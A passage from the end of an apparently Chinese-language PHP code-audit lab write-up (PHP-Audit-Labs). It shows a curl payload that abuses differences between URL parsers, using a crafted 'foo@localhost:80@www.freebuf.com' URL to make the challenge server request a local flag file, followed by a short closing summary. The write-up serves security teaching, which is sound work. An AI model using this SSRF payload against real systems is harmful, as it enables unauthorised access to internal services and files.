 ![23](23.png)

我们可以利用URL解析器之间的差异处理，构造如下 **payload** ：

```bash
curl -d "url=http://foo@localhost:80@www.freebuf.com/flag.php" "http://题目IP/"
```

![24](24.png)

## 总结

我们的项目会慢慢完善，如果大家喜欢可以关注 [ **PHP-Audit-Labs** ](https://github.com/hongriSec/PHP-Audit-Labs) 。大家若是有什么更好的解法，可以在文章底下留言，祝大家玩的愉快！